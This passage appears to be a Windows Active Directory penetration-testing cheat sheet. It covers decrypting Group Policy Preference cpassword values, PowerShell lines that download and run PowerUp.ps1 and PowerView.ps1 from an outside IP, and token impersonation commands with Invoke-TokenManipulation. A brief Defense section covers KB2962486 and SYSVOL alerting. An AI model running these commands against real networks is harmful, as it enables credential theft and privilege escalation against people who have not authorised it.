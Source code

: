 https://pentestlab.blog/tag/cpassword/

Decrypt encrypted password:
```
gpp-decrypt $cpassword
```

```
Get-GPPPassword
Get-NetOU -GUID "{4C86DD57-4040-41CD-B163-58F208A26623}" | %{ Get-NetComputer -ADSPath $_ }
// All OUs connected to policy | List all domain machines tied to OU
```

```
IEX(New-Object Net.WebClient).DownloadString("http://192.168.100.3/tmp/PowerUp.ps1")
IEX(New-Object Net.WebClient).DownloadString("http://192.168.100.3/tmp/PowerView.ps1")

Get-CachedGPPPassword
```

- Future - Local Administrator Password Solution (LAPS): https://www.microsoft.com/en-us/download/details.aspx?id=46899

#### Defense

- Prevent passwords from getting added to GPP (KB2962486) and delete existing GPP from SYSVOL containing passwords.
- **[ALERTING]** Detect by setting Everyone:DENY on SYSVOL GPP file. (Logs: Audit access denied)

### Token Impersonation

PowerSploit / Incognito

List all tokens
```
Invoke-TokenManipulation -ShowAll
```

List all unique and usable tokens
```
Invoke-TokenManipulation -Enumerate
```

Start new process with token of a user
```
Invoke-TokenManipulation -ImpersonateUser -Username "domain\user"
```

Start new process with token of another process
```
Invoke-TokenManipulation -CreateProcess "C:\Windown\system32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500
```

### cmdkey

- Creates, lists, and deletes stored user names and passwords or credentials.
- Usable with "runas /savecred"
